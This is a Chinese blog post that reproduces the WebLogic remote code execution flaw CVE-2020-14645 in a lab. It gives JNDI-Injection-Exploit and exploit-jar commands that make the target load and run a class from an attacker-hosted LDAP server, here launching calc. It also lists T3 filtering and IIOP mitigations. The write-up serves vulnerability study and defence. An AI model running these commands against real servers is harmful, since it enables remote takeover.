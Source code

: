 ```yaml
---
title: CVE-2020-14645  Weblogic远程代码执行漏洞复现
categories:
  - 漏洞复现
tags:
  - 漏洞
  - weblogic
  - 漏洞复现
  - CVE-2020-14645
  - JNDI
author: Chace
date: 


---
```


# CVE-2020-14645  Weblogic远程代码执行漏洞复现



## 漏洞介绍

今日，Oracle官方发布WebLogic安全更新，其中修复了一个CVSS评分为9.8的严重漏洞(CVE-2020-14645)，该漏洞通过T3协议进行利用，攻击者可以实现远程代码执行，进而控制服务器。由于漏洞利用复杂度低，风险高，建议尽快修复。

WebLogic是美国Oracle公司出品的一个application server，是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。Oracle WebLogic Server存在远程代码执行漏洞。

攻击者可利用该漏洞实现远程代码执行。该反序列化的gadget存在与coherence包中。编号CVE-2020-14645。

构造chain类似于common-collection的chain，可以照葫芦画瓢。

mvn 好像不能下载coherence包，很奇怪，直接下jar包就行。

反序列化的对象，通过t3发送给weblogic即可。所以，这个只是生成payload的工具。

<!--more-->

## 影响范围

- Oracle Oracle WebLogic Server 10.3.6.0.0
- Oracle WebLogic Server 12.2.1.4.0
- Oracle WebLogic Server 12.2.1.3.0
- Oracle WebLogic Server 12.1.3.0.0
- Oracle WebLogic Server 14.1.1.0.0

## 环境搭建

WebLogic 12.2.1.4官方下载链接:

```http
https://download.oracle.com/otn/nt/middleware/12c/122140/fmw_12.2.1.4.0_wls_lite_Disk1_1of1.zip
```

下载JDK 6u211/7u201/8u191任意版本并配置环境变量

```
JDK8u191
下载地址：https://pan.baidu.com/s/1cCtSolwsZCmL7xN6orTjTw
提取码：nmi1
```

用管理员权限打开CMD命令

```
java -jar fmw_12.2.1.4.0_wls_lite_generic.jar
```

全部点击下一步，勾选自主启动配置向导选项

![](1.png)

创建新域并勾选所有模板，点击下一步至安装完成

![](2.png)

安装成功后，跳到base_domain目录下

C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain

运行startWebLogic.cmd

![](3.png)

可访问7001端口（http://192.168.1.111:7001/console/login/LoginForm.jsp），说明环境部署成功

![](4.png)

## 漏洞复现

JNDI工具下载地址

https://github.com/welk1n/JNDI-Injection-Exploit

```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C [command] -A [address]
```

使用JNDI工具搭建LDAP和HTTP服务，注意不能占用8180/1099/1389三个端口，修改要执行的命令后回车，会同时启动LDAP/RMI/HTTP三种服务，并且自动编译好带命令的class文件

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 192.168.1.236
```

![](5.png)



使用CVE-2020-14645漏洞验证工具

https://github.com/DSO-Lab/Weblogic_CVE-2020-14645


```
java -jar CVE-2020-14645.jar LDAP_IP:LDAP_PORT/#Exploit http://192.168.1.111:7001
```

输入JNDI工具搭建LDAP地址和端口

```
java -jar CVE-2020-14645.jar 192.168.1.236:1389/mcq0vt http://192.168.1.111:7001
```

![](6.png)



输入命令请求LDAP服务，执行自动编译的class文件，成功弹出计算器（失败，无法弹出计算器）

![](7.png)

PS：java版本<jdk 6u211/7u201/8u191，我用的是8u191，最后没有复现成功，通过本地测试发现报错如下：

![](8.png)

​	原因是在更高版本的JDK环境中trustURLCodebase变量为false，限制了远程类的加载。


## 修复建议

### 1、官方修复方案

Oracle已经发布补丁修复了上述漏洞，请用户参考官方通告及时下载受影响产品更新补丁，并参照补丁安装包中的readme文件进行安装更新，以保证长期有效的防护。

   注：Oracle官方补丁需要用户持有正版软件的许可账号，使用该账号登陆[**https://support.oracle.com**](https://support.oracle.com/)后，可以下载最新补丁。

### 2、临时解决方案

用户可通过控制T3协议的访问来临时阻断针对这些漏洞的攻击。操作方法如下：

      1. 进入WebLogic控制台，在base_domain的配置页面中，进入“安全”选项卡页面，点击“筛选器”，进入连接筛选器配置。
      2. 在连接筛选器中输入：weblogic.security.net.ConnectionFilterImpl，参考以下写法，在连接筛选器规则中配置符合企业实际情况的规则：

   ```
   127.0.0.1 * * allow t3 t3s
   本机IP * * allow t3 t3s
   允许访问的IP  * * allow t3 t3s  
   * * * deny t3 t3s
   ```

      3. 保存后若规则未生效，建议重新启动WebLogic服务（重启WebLogic服务会导致业务中断，建议相关人员评估风险后，再进行操作）。

### 3、禁用IIOP协议。

可通过关闭 IIOP 协议对此漏洞进行缓解。操作如下： 

1. 在 Weblogic 控制台中，选择“服务”->”AdminServer”->”协议”，取消“启用 IIOP”的勾选。

2. 并重启 Weblogic 项目，使配置生效。